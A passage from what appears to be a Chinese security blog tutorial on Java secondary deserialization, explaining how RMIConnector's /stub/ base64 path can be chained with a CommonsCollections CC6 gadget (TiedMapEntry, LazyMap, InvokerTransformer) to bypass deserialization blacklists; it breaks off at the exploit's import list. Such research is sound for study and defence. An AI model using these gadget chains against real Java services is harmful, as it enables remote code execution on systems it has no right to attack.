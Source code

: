 
简单总结一下，可以看出 SignedObject 的二次反序列化，运用最多的应该就是绕过黑名单了，因为本身存在缺陷，它的content为byte数组类型，导致不能绕过`URLClassLoader.loadClass()`这个万恶之源

### RMIConnector
看到`RMIConnector.findRMIServerJRMP`方法
![](https://img-blog.csdnimg.cn/a0da05e198884fafa600dc060e5da126.png)

这里对传入的 base64 反序列化，往上找看看哪里调用了这个方法，在findRMIServer方法中，如果 path 以 `/stub/`开头，就会调用`findRMIServerJRMP`
![](https://img-blog.csdnimg.cn/b06d3b66efbb4c0d8601847bc333790d.png)

继续往上找，在该类的 public 方法`connect`中看到调用`findRMIServer`并且传入 jmxServiceURL 参数，要求 rmiServer 为 null
![](https://img-blog.csdnimg.cn/321365300a004bf496a5925090b04623.png)
查找一下`RMIConnector`的利用
```java
JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/base64string");
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
```
接下来我们只要能调用它的connect方法就可以了

#### CommonsCollections
我们可以知道cc链的 InvokerTransformer 类可以调用任意实例的任意方法，那么我们调用 RMIConnector 的无参数方法connect即可

这里使用最常用的cc6，在ysoserial中，利用了
```
java.util.HashSet.readObject()->HashMap.put()->HashMap.hash(key) ->TiedMapEntry.hashCode()
```
而实际上，在`java.util.HashMap.readObject()`就有`hash(key)`的操作，我们可以利用此来构造gadget
![](https://img-blog.csdnimg.cn/b4e89d5fdda34f1f9c77166b839953c4.png)
最后的利用链为：
```
HashMap.readObject()
  hash(key) === key.hashCode() === TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
          ConstantTransformer.transform()
          InvokerTransformer.transform()
          InvokerTransformer.transform()
          InvokerTransformer.transform()
```

参考：[反序列化篇6 CC6](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%876/)

我们改造成二次反序列化，最后的代码为：
```java
import CommonsCollections.Evil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
```